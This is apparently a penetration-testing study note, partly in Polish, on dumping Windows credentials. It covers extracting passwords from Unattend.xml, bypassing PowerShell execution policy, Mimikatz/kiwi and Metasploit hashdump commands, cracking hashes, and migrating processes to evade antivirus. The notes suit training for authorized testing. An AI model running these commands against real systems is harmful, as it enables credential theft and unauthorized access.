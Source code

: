 # Windows Credential Dumping

## Unattended Windows Setup utility

Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.

This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account’s password.  
If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.

The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:

- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Autounattend.xml`

Hasła ukryte w plikach czasem moga być zakodowane Base64

```xml
Szukać sekcji:
<Autologon>
```

```Ps
Powershell.exe
cd .\Desktop\PowerSploit\Privesc\
powershell -ep bypass # PowerShell execution policy bypass
. .\PowerUp.ps1 # Import PowerUp.ps1 script
Invoke-PrivescAudit # Invoke-PrivescAudit function.

# Decoding administrator password using Powershell.
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $password

# run a command prompt as an administrator using discover credentials using runas.exe utility
runas.exe /user:administrator cmd
Admin@123
whoami
```

## Dumping Hashes With Mimikatz

![[Tools/mimikatz#Dumping Hashes With Mimikatz]]

### $ msf>kiwi (Mimikatz)
The **SAM (Security Account Manager) database**, is a database file on Windows systems that stores users passwords and can be used to authenticate users both locally and remotely.
```bash
# w sesji meterpretera
pgrep lsass # usługa odpowiedzialna za managing Windows Acces Token
migrate # trzeba zmigrować do procesu x64 (w x86 mimikatz nie będzie działac poprawnie)
load kiwi
creds_all # This will grab all of the credentials in RAM and dispaly them to the screen
lsa_dump_sam #  Extract all the users NTLM hash using Kiwi
lsa_dump_secrets # Find the syskey by dumping the LSA secrets.
```

```bash
# dump hashy maszyny do bazy Metasploit (ocdczytać za pomocą `creds`)

# This module will collect cleartext Single Sign On credentials from the Local Security Authority using the Kiwi (Mimikatz) extension.
post/windows/gather/credentials/sso

# This module will dump the local user accounts from the SAM database using the registry
windows/gather/hashdump

# This will dump local accounts from the SAM Database. If the target host is a Domain Controller, it will dump the Domain Account Database using the proper technique depending on privilege level, OS and role of the host.
windows/gather/smart_hashdump
```


# Dumping & Cracking Hashes

The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.  
SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.

LSASS process  
Why migrate?

- **Stability**: Exploits and Payloads that are providing the session tend to be unstable as compared to the basic process that has been developed for the target and is running on the target. Hence, migrating to those processes can serve to provide a more stable connection.
- **Cloaking**: Antivirus Software or any other Defensive Software tends to scan and look for malicious files that might be running on the machine. Hence, Cloaking or Hiding our malicious process will avoid detection.
- **Compatibility**: It is possible that while exploiting a machine that the payload you used might be designed for the 64-bit Architecture but the session that you have received is an Operating System running an 86-bit Architecture. Migrate can be used to shift the process to the native process and provide compatibility to the session.

```bash
post/windows/gather/hashdump # moduł zapisujący hashe do bazy metasploit
auxiliary/analyze/jtr_crack_fast # JtR
```
```bash
meterpreter>hashdump
# skopiować wyświetlone hashe i zapisać w pliku
# crack hashy za pomocą john lub hashcat

# moduł password cracker to decode Windows based password hashes
use auxiliary/analyze/crack_windows
set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit
```